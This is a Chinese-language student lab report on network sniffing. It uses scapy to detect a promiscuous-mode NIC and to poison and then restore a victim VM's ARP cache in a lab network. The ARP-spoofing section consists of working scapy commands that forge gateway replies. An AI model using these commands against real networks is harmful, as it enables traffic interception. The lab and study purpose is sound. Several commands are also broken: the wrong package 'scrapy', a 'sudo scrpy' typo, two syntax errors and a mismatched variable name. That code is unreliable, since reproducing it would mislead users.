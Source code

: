# 网络监听实验

## 网络拓扑

### 网络拓扑

![topology](img/topology.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy_install](img/scapy_install.png)

## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip_link _show](img/ip_link _show.png)

```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start_scapy](img/start_scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy_pkt](img/scapy_pkt.png)

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意!上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set_promisc](img/set_promisc.png)

![ip_link_show_promisc](img/ip_link_show_promisc.png)

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt_difference](img/pkt_difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![set_promisc_off](img/set_promisc_off.png)

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```

![replace_mac](img/replace_mac.png)

继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover_gw](img/recover_gw.png)

## 实验中遇到的问题及解决方案

1.参考了之前师哥师姐的作业

2.在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址

解决方法:

```
sudo vim /etc/network/interfaces
```

3.问题3：伪造的网关ARP相应包发不出去

解决方法： 在构造ARP相应包时添加数据链路层Ether()

以上两条参考了同学成功的经验

4.直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题，重新尝试使用以下口令开启scapy：sudo scrpy

## 参考资料

师哥/师姐作业：

https://github.com/CUCCS/2021-ns-public-Dot1029/tree/chap0x04/chap0x04

[网络安全电子教材]([实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html))

[kali-linux配置nat模式连接网络_Ahuuua的博客-CSDN博客_kalinat模式怎么联网](https://blog.csdn.net/Ahuuua/article/details/108575907)
